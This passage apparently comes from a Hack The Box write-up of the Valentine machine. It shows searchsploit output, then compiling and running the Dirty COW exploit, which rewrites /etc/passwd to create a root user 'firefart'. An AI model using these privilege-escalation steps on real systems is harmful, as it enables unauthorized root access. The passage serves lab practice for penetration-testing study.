```bash
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)                 | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)                 | linux/local/46362.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                      
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ searchsploit -m exploits/linux/local/40839.c
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/valentine/40839.c
```

I upload the exploit to the machine, after the transfer is done, I compile it:

```bash
ype@Valentine:~/tmp$ gcc -pthread 40839.c -o c -lcrypt
hype@Valentine:~/tmp$ ls
40839.c  c  linout.txt  linpeas.sh
hype@Valentine:~/tmp$  file c
c: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x937c2db535a9f60590676e928521f13a7f2280bf, not stripped
hype@Valentine:~/tmp$ chmod +x c
```

The only thing left is to run the exploit:

```bash
hype@Valentine:~/tmp$ ./c
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f1a74fd1000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password123'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password123'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
